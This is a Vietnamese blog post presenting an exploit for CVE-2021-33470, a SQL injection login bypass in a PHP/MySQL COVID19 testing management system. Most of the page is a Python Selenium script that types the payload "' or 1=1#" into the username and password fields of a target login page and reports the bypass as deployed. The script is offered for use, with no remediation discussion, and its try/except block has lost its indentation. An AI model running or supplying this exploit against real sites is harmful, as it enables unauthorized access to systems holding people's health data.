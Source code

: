 ```yaml
---
title: Khai thác hệ thống quản lý kiểm tra COVID19 1.0 - (SQL Injection)
date: 9/6/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## Mô Tả 
+ Lỗi: CVE-2021-33470
+ Tác giả: @nu11secur1ty
+ Link: [Hệ thống quản lý kiểm tra COVID19 sử dụng PHP và MySQL](https://phpgurukul.com/covid19-testing-management-system-using-php-and-mysql)


--- 
## Bảng Demo khai thác
![demo](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-33470/CVE-2021-33470.gif?raw=true)

---

## Mã khai thác

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*- 
# Author: @nu11secur1ty
# Debug: @nu11secur1ty
# CVE: CVE-2021-33470
 
from selenium import webdriver
import time
 
 
#nhập liên kết đến trang web bạn muốn đăng nhập tự động.
website_link="http://target/Covid19-TMS%20Project%20Using%20PHP%20and%20MySQL/covid-tms/login.php"
 
#enter your login username SQL bling injection
username="hacker' or 1=1#"
#enter your login password SQL bling injection
password="hacker' or 1=1#"
 
# test and proof the SQL injection
# user: admin
# password: password
 
#enter the element for username input field
element_for_username="username"
#enter the element for password input field
element_for_password="inputpwd"
 
#enter the element for submit button by class
element_for_submit="btn.btn-primary.btn-user.btn-block"
 
#browser = webdriver.Safari() #for macOS users[for others use chrome vis
chromedriver]
browser = webdriver.Chrome() #uncomment this line,for chrome users
#browser = webdriver.Firefox() #uncomment this line,for chrome users
 
browser.get((website_link))
 
try:
username_element = browser.find_element_by_name(element_for_username)
username_element.send_keys(username)
password_element  = browser.find_element_by_name(element_for_password)
password_element.send_keys(password)
time.sleep(3)
signInButton = browser.find_element_by_class_name(element_for_submit)
signInButton.click()
 
print("payload is deployed NOW, you have SQL Authentication Bypass =)...\n")
 
except Exception:
#### This exception occurs if the element are not found in the webpage.
print("Some error occured :(")
```

---
## Bạn có thể tham khảo đầy đủ tại đây 
+ [https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470)
## Chúc May Mắn :D

